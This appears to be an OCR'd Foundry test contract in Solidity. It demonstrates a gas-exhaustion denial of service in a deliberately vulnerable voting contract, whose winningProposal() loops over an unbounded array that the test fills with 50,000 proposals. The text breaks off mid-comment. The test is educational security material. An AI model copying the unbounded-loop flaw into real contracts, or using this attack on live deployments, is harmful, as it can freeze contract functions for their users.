 ```solidity

// Foundry test contract demonstrating the vulnerability for educational purposes.
// This test contract extends BaseTestWithBalanceLog.
contract YourTest is BaseTestWithBalanceLog {
    VulnerableVoting public voting;

    // setUp is called before each test. It deploys the VulnerableVoting contract
    // and ensures this test contract has enough ETH.
    function setUp() public {
        // Ensure the test contract has 100 ether.
        vm.deal(address(this), 100 ether);
        // Deploy the vulnerable contract.
        voting = new VulnerableVoting();
    }

    // testExploit demonstrates the vulnerability by:
    // 1. Inserting a normal proposal and showing winningProposal works normally.
    // 2. Using bulkAddProposals to insert a large number of proposals.
    // 3. Calling winningProposal with a deliberately low gas limit to simulate
    //    excessive gas consumption from unbounded iteration.
    // Educational comments explain the vulnerability and mitigation approaches.
    function testExploit() public balanceLog {
        // Ensure the test contract has at least 10 ether before proceeding.
        vm.deal(address(this), 10 ether);

        // Step 1: Add a normal proposal and test winningProposal.
        // Call addProposal and check that winningProposal returns index 0.
        (bool successAdd, ) = address(voting).call(
            abi.encodeWithSignature("addProposal()")
        );
        require(successAdd, "addProposal() call failed");

        // Call winningProposal normally.
        (bool successWin, bytes memory returnData) = address(voting).call(
            abi.encodeWithSignature("winningProposal()")
        );
        require(successWin, "winningProposal() call failed");
        uint256 winningIndex = abi.decode(returnData, (uint256));
        // The first (and only) proposal is at index 0.
        require(winningIndex == 0, "Unexpected winning proposal index");

        // Step 2: As the owner (the deployer in this test), add a very large number of proposals.
        // For demonstration, we add a number that simulates excessive growth.
        uint256 largeCount = 50000; // This number is for educational purposes.
        (bool successBulk, ) = address(voting).call(
            abi.encodeWithSignature("bulkAddProposals(uint256)", largeCount)
        );
        require(successBulk, "bulkAddProposals() call failed");

        // Step 3: Attempt to call winningProposal with a low gas limit to simulate gas exhaustion.
        // Note: In a real network scenario, iterating over a very large array may exceed
        // block gas limits, leading to a denial of service vulnerability.
        (bool successLowGas, ) = address(voting).call{gas: 100000}(
            abi.encodeWithSignature("winningProposal()")
        );
        // We expect this call to fail (or at least consume too much gas) when the array is huge.
        // If it reverts, it demonstrates how an unbounded loop can cause problems.
        require(!successLowGas, "winningProposal() unexpectedly succeeded with low gas");

        // Educational Comment: The vulnerability occurs because the winningProposal() function
        // loops through an unbounded array, which can cause excessive gas consumption when the array
```